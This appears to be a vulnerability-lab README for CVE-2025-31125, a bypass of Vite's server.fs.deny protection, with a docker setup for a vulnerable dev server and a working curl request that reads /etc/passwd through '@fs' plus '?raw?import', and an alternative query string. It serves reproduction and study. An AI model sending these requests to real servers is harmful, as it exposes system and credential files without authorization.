

# Vite Development Server Arbitrary File Read Bypass (CVE-2025-31125)

[中文版本(Chinese version)](README.zh-cn.md)

Vite is a modern frontend build tool that provides a faster and leaner development experience for modern web projects. It consists of two major parts: a development server with Hot Module Replacement (HMR) capability, and a build command that bundles your code with Rollup.

In versions of Vite before 6.2.4, 6.1.3, 6.0.13, 5.4.16, and 4.5.11, the `server.fs.deny` feature, which is designed to restrict access to files outside of Vite's serving allow list, can be bypassed. By appending `?raw?import` or `?import&?inline=1.wasm?init` to URLs using the `@fs` prefix, an attacker can read arbitrary files on the filesystem, as long as the Node.js process has permission to read them.

This vulnerability is a bypass for the patch of [CVE-2025-30208](../CVE-2025-30208/README.md).

References:

- <https://github.com/vitejs/vite/security/advisories/GHSA-4r4m-qw57-chr8>
- <https://nvd.nist.gov/vuln/detail/CVE-2025-31125>

## Environment Setup

Execute the following command to start a Vite 6.2.3 development server:

```
docker compose up -d
```

After the server starts, you can access the Vite development environment at `http://your-ip:5173`.

> Note: The development server of the old version of Vite defaults to port 3000, while the new version defaults to port 5173, please pay attention to the difference.

## Vulnerability Reproduction

By appending `?raw?import` to the URL, you can bypass this restriction and retrieve the contents of the file:

```
curl "http://your-ip:5173/@fs/etc/passwd?raw?import"
```

This request will return the contents of the `/etc/passwd` file:



Alternatively, you can also use the `?import&?inline=1.wasm?init` query parameters to achieve the same result.
